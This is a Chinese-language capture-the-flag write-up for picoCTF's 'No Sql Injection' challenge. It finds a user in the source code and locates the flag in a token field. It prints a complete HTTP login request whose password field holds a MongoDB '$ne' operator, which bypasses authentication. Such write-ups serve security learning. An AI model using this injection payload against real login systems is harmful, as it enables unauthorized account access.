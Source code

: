 Source Code:
https://artifacts.picoctf.net/c_atlas/29/app.tar.gz

### No Sql Injection Solution
● 在app/utild/see.ts
![image](https://hackmd.io/_uploads/HkHa23CpT.png)
> 找到可登入的USER

● 在app/api/login/route.ts 找到 /admin
![image](https://hackmd.io/_uploads/ryaPjyyCT.png)

http://atlas.picoctf.net:61553/admin
![image](https://hackmd.io/_uploads/HyI8iJ1AT.png)

● 在app/models/user.ts 找到flag位置

user.ts
```python=10
const UserSchema: Schema = new Schema({
  email: { type: String, required: true, unique: true },
  firstName: { type: String, required: true },
  lastName: { type: String, required: true },
  password: { type: String, required: true },
  token: { type: String, required: false ,default: "{{Flag}}"},
});
const User = models.User || mongoose.model<UserInterface>("User", UserSchema);
```
> FLAG 在User 的token中

### NoSQL injection
> 參考資料:
> [PortSwigger: NoSQL injection](https://portswigger.net/web-security/nosql-injection)
> [NoSQL injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

#### 1. 繞過驗證
> [!NOTE]
>Authentication bypass
>在 MongoDB 中
>$ne: 代表 "not equal"，用於篩選出某個欄位的值不等於指定值的文件（或記錄）。
>$gt: 代表 "greater than"，用於篩選出某個欄位的值大於指定值的文件（或記錄）。

```
POST /api/login/ HTTP/1.1
Host: atlas.picoctf.net:61553
Content-Length: 60
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://atlas.picoctf.net:61553
Referer: http://atlas.picoctf.net:61553/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"email":"joshiriya355@mumbama.com","password":{"$ne":  ""}}
```
使用see.ts找到的USER: joshiriya355@mumbama.com
password 不等於 ""(空白)
> 可繞過驗證，進到 /admin
> 沒有幫助
